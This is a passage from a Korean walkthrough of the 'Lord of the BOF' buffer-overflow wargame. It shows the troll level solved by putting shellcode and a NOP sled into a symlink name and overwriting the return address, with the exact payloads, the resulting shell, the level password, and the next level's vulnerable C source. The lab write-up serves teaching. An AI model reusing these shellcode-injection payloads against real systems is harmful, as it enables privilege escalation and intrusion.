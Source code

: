 쉘코드의 시작주소는 0xBFFFF81D이고 앞의 놉슬레드 중간 지점은 대략 0xBFFFF81D+100 = 0xBFFFF881이다.

링크를 troll로 바꾸고 eip를 0xbffff881로 바꾸면 쉘을 얻을 수 있을 것이다.

gdb와 실제 주소가 달라 에러가 발생하는데 core를 이용해 디버깅을 해보면 쉘코드 위치가 0xbfffe52 ~~ 임을 알 수 있다. 이를 이용해 0xbffffe96로 뛰게 수정하면 쉘을 얻을 수 있다. (core를 얻으려면 디버깅 권한이 있는 trol2 바이너리를 대상으로 실행하여 Segmentation Fault를 만들어야한다.)

``` gdb
[orge@localhost 1shh]$ ln -s ~/troll `python -c 'print "\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*200'`
[orge@localhost 1shh]$ $PWD/tmp??S??柰^K????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????? `python -c 'print "A"*44+"\x95\xfe\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA??
1sh: /home/orge/.bashrc: Permission denied
bash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)
bash$ my-pass
euid = 508
aspirin
```

# troll

password is aspirin

### Problem

``` bash2
[troll@localhost troll]$ cat vampire.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```
